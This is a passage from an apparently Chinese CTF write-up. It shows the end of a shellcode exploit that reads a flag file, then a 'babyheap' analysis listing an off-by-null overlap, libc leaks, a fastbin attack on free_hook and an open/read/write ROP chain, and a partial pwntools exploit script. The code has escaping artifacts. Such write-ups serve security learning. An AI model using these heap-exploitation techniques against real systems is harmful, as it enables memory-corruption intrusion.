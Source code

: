 ```
    mov     rax, 60
    syscall
    ''')

# find flag 
# r.sendline(('a'*7+shellcode).ljust(0x300,'x90')+ 
#             './flag'.ljust(0x10,'x00')+ 
#             '.'.ljust(0x10,'x00')+ 
#             '..'.ljust(0x10,'x00')+ 
#             't'.ljust(0x10,'x00')+ 
#             'n'.ljust(0x10,'x00'))            # r15+0x340

# read flag
cwd = '/flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9'
r.sendline(('a'*7+read_sc).ljust(0x300,'x90')+ 
            '%s/flagx00'%cwd) 
r.interactive()
```

### <a class="reference-link" name="babyheap"></a>babyheap

**分析**
- 程序edit功能有一个off-by-null漏洞
- 通过off-by-null漏洞攻击方法可以构造一个重叠的堆块，能够控制已经释放的堆块
- 利用程序show功能泄露libc地址、堆地址
- 通过unsortbin攻击可以修改global_max_fast为很大的数，可以进行fastbin attack
- 通过fastbin attack修改free_hook为printf函数
- 通过修改后的free功能调用printf函数的格式化字符串漏洞泄露程序地址、栈地址
- 通过fastbin attack修改程序全局指针指向已控制的堆块，里面的指针可以任意修改，可以任意地址读写
- 通过edit功能在栈上构造open、read、write的rop，edit函数返回时就执行rop读取输出flag
**exp**

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
#version 6 by tempo
from pwn import *
from fmt64_payload import *
context.log_level = "debug"
proc_name = 'babyheap.bak'
libc_name = './libc-2.23.so' #'/lib/x86_64-linux-gnu/libc-2.23.so'
ip_addr = "123.206.174.203:20001" #/lib32/libc-2.23.so
local = 0
#-------------------no change this----------------------
elf = ELF('./`{``}`'.format(proc_name))
if local:
    if len(libc_name) ==0:
        r = process('./`{``}`'.format(proc_name))
        libc = r.libc
    else:
        r = process('./`{``}`'.format(proc_name), env = `{`"LD_PRELOAD": libc_name`}`)
        libc = ELF(libc_name)
    #libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
else:
    r=remote(ip_addr.split(":")[0],ip_addr.split(":")[1])
    libc = ELF(libc_name)
#------------------------------------------------
def add(size):
    r.sendlineafter("Choice","1")
    r.sendlineafter("Size",str(size))
def edit(index,content):
    r.sendlineafter("Choice","2")
    r.sendlineafter("Index",str(index))
    r.sendafter("Content",str(content))
```